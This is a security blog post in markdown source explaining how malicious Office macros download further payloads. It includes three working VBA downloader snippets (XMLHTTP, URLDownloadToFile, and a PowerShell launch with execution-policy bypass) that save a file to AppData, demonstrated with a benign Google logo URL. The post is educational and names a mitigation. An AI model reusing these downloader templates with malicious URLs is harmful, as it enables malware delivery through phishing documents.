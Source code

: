 ```yaml
---
layout: post
title: Office Docs, The Macro View
categories: [Malware, Macro's, VBA]
excerpt: Attackers often use Office Macros as a means to infect computers and download additional malicious code. In this post I'll explore the ways an attacker can use macros to download more content and we'll walk through some sample code.
---
```

(Estimated Reading Time: 7 minutes)

- [Why Attackers Use Office Macros](#why-attackers-use-office-macros)
- [Approaches To Downloading More Malicious Code](#approaches-to-downloading-more-malicious-code)


## Why Attackers Use Office Macros

We all know Office Macro’s can be dangerous and can be used by attackers to download additional malware. In this blog post, I wanted to explorer the basic ways that Macro’s can be used to download additional code by looking at some basic example code.  

Macros have become very popular in malware because they are easy to create and can be crafted into phishing messages to convince the user to run the macro. Despite security warning; the user will almost always click, “Enable Content” 

![MacroWarning](/images/macro_warning.PNG)

Microsoft Word, Excel, Publisher, and Power Point are all office document files that support including Visual Basic Applications (VBA) code as Macros. Microsoft hosts some good documentation here on getting started with [Macros in Office](https://docs.microsoft.com/en-us/office/vba/library-reference/concepts/getting-started-with-vba-in-office 
).  

## Approaches To Downloading More Malicious Code

There are three (maybe four) primary methods to download files using VBA Macros. The first is an XML HTTP Request (XHR), which is a method of fetching website data dynamically. Below is a very simple example of a VBA script to download the famous google logo image as a png and store it in the users home directory in a normally hidden folder, call AppData. An attacker could easily replace the image url here in this example with a malicious executable. 

```
Sub Download_File_XHR()

Dim myURL As String
myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

Dim HttpReq As Object
Set HttpReq = CreateObject("Microsoft.XMLHTTP")
HttpReq.Open "GET", myURL, False
HttpReq.send

Dim output As String
output = Environ("AppData")

If HttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type = 1
    oStream.Write HttpReq.responseBody
    oStream.SaveToFile output + "\google_image.png", 2
    oStream.Close
End If

End Sub 
```

The second method involves importing a specific features from a Windows API, and then calling that API. In this case we are importing the function URLDownloadToFile from the urlmon.dll library. This code will have the same effect as above and will download the google logo png to the users AppData folder.

```
Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" _
(ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, _
ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Sub Download_File_API()
    Dim myURL As String
    myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"
    
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, myURL, output, 0, 0)

End Sub
```

The third method involves calling out to Powershell and using another program (in this case PowerShell) to download the desired file. Like the two examples above this code has the same end result of downloading the google logo into the AppData folder. In this example however you can clearly see PowerShell pop up and know that another process has been started. Attackers will typically get fancier then this example code and will often Encode parameters to hide URL's. The Windows 10, Attack Surface Reduction rule for [**Block all Office applications from creating child processes**](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction#block-all-office-applications-from-creating-child-processes) would mitigate the below example as it would prevent Office from launching PowerShell.

```
Sub Download_File_Powershell()
    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"

    Dim psCode As String
    psCode = "invoke-webrequest -Uri 'https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png' -OutFile " + output + " -UseDefaultCredentials"

    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -executionpolicy bypass -command " + psCode)

End Sub
```

I mentioned a forth method, which could be using Excel 4.0 (XL4) macros. This is a legacy feature of Excel but attackers have figured out how to leverage the feature to Download additional files as well. I'm not going to give an example of this method today but will link to this article where you could [read more about this technique](https://www.lastline.com/labsblog/evolution-of-excel-4-0-macro-weaponization/).

Lastly, just a note of caution, Even though the above code is totally benign and not malicious my AV software decide to protect me from my own non-malicious example code.  When I saved the above samples into an Example.xlsm file Windows Defender saved me from myself. 

![AVProtection](/images/macro_example_triggers_av.PNG)

